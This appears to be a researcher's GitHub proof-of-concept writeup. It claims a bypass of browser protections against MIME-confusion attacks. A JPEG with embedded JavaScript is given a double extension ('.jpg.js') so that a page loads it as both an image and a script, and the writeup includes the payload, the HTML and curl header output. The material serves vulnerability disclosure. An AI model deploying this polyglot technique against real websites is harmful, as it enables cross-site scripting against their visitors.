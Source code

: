 # Bypass CSP against MIME Confusion Attack

Major browsers have implemented Content Security Policy against MIME confusion attacks since 2018, reported by CVE-2018-5164 and CVE-2019-19916 (my report) which use polyglot image files (GIF, JPG ...) with embedded JavaScript code (as described here: https://blog.mozilla.org/security/2016/08/26/mitigating-mime-confusion-attacks-in-firefox/ and here https://github.com/V1n1v131r4/MIME-Confusion-Attack-on-Midori-Browser).

But based on my studies I found a way to bypass CSP and perform Cross-Site Script (XSS) attacks by exploiting the MIME Type of the HTTP header, allowing remote code execution when accessing malicious websites.


## Proof of concept Step-by-step

The image used in this PoC is as follows

![alt](https://ciber.sejalivre.org/WP/2x.jpg)


Available here: http://portswigger-labs.net/polyglot/jpeg/xss_within_header_compressed_small_logo.jpg


These are the image strings with the embedded JS code:

![alt](https://ciber.sejalivre.org/WP/xxd.png)


The inline JavaScript code was this:
```
*/=alert("Burp rocks.")/*
```

The PoC website is hosted at: 

* Scenario 1: http://joomla.sejalivre.org/index.html

* Scenario 2: http://joomla.sejalivre.org/index2.html


## Scenario 1

CSP's correct behavior in HTTP MIME Type is not to allow an image file with embedded JavaScript code to be read as script, as below the HTML/JS code below:

```
<html>
     <img src="2x.jpg">
	   <script src="2x.jpg"></script>
 </html>
```

Below is the browser blocking MIME confusion attack via its Content Security Policy:

![alt](https://ciber.sejalivre.org/WP/console1.png)


## Scenario 2 - The Bypass

I managed to bypass CSP by stating more than one extension in the image file with embedded JavaScript code, like this:

```
<html>
     <img src="2x.jpg.js">
	   <script src="2x.jpg.js"></script>
 </html>
```

So the image continues to be read as script by `<script>` tag and as image by `<img>` tag.

Note that the image file is the same as both scenarios, only its extension has been changed.

Below is the browser allowing MIME confusion attack by bypass in your Content Security Policy

![alt](https://ciber.sejalivre.org/WP/console2.png)






Here are HTTP Response on both scenarios:

```
$ curl -I http://joomla.sejalivre.org/2x.jpg
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2019 06:26:44 GMT
Content-Type: image/jpeg
Content-Length: 3318
Connection: keep-alive
Last-Modified: Thu, 19 Dec 2019 20:38:08 GMT
Expires: Thu, 20 Feb 2020 06:26:44 GMT
Cache-Control: max-age=5184000
Pragma: public
Accept-Ranges: bytes
```

```
$ curl -I http://joomla.sejalivre.org/2x.jpg.js
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2019 06:26:12 GMT
Content-Type: application/javascript
Content-Length: 3318
Connection: keep-alive
Vary: Accept-Encoding
Last-Modified: Fri, 20 Dec 2019 21:27:54 GMT
Expires: Tue, 21 Jan 2020 06:26:12 GMT
Cache-Control: max-age=2592000
Pragma: public
Accept-Ranges: bytes
```


In the first scenario webserver sends the image as `Content-Type:image/jpeg`.  In the second it is sent as `Content-Type:application/javascript` due to the change of file extension.

## Browsers and servers tested

This PoC has been tested on the following scenarios:

* Nginx (on cPanel 82)
* Apache 2.4.41
* Mozilla Firefox < 71.0 (Windows, Linux and Android)
* Google Chrome < 79.0.3945.88 (Windows, Linux and Android)
* Google Chromium < 81.0.4003.0 (Windows and Linux)
* Apple Safari 13.0.4 < (MacOS Catalina)
* Opera 60 - R3 < (Windows and Linux)
* Microsoft Edge < 44.18362.449.0 (Windows 10)
* Microsoft Internet Explorer < 11 (Windows 10)


## Screenshots

Below are some screenshots of PoC

Google Chrome
![alt](https://ciber.sejalivre.org/WP/chrome.png)

Google Chromium
![alt](https://ciber.sejalivre.org/WP/chromium.png)

Mozilla Firefox
![alt](https://ciber.sejalivre.org/WP/Firefox.png)

Opera
![alt](https://ciber.sejalivre.org/WP/opera.png)

Safari
![alt](https://ciber.sejalivre.org/WP/Safari.jpeg)

Edge
![alt](https://ciber.sejalivre.org/WP/edge.png)

IE
![alt](https://ciber.sejalivre.org/WP/IE.png)


